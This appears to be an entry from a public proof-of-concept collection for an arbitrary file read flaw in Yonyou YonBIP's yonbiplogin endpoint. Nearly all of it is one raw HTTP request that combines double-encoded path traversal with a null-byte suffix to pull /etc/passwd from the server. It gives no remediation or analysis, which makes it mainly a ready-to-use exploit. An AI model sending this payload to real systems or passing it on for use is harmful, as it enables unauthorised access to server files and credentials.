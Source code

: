 # yonbip_yonbiplogin_fileread

product: 用友YonBIP
```
GET /iuap-apcom-workbench/ucf-wh/yonbiplogin/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%2500.png.js HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
```
from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8BYonBIP%E9%AB%98%E7%BA%A7%E7%89%88yonbiplogin%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
